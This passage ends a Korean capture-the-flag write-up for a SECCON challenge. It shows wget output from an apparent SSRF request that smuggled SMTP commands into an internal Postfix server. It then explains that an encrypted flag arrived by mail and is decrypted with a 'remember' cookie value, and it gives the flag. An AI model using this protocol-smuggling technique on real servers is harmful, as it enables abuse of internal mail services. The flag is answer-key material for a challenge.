---response end---
200 No headers, assuming HTTP/0.9
Registered socket 4 for persistent reuse.
Length: unspecified
Saving to: '/dev/stdout'
220 ymzk01.pwn ESMTP patched-Postfix
502 5.5.2 Error: command not recognized
502 5.5.2 Error: command not recognized
502 5.5.2 Error: command not recognized
502 5.5.2 Error: command not recognized
250 ymzk01.pwn
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 091722663F
221 2.0.0 Bye

     0K                                                        23.1K=0.01s

2017-12-12 05:04:35 (23.1 KB/s) - '/dev/stdout' saved [334]
```

  
메일로 `Encrypted-FLAG: 37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19`가 온 것을 볼 수 있습니다.

  
`remember=37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19`  
앞에서 패스워드를 복호화한 것과 동일한 방법으로 Encrypted-FLAG 값을 복호화해보면 flag를 얻을 수 있습니다.

## Flag
SECCON{SSRFisMyFriend!}
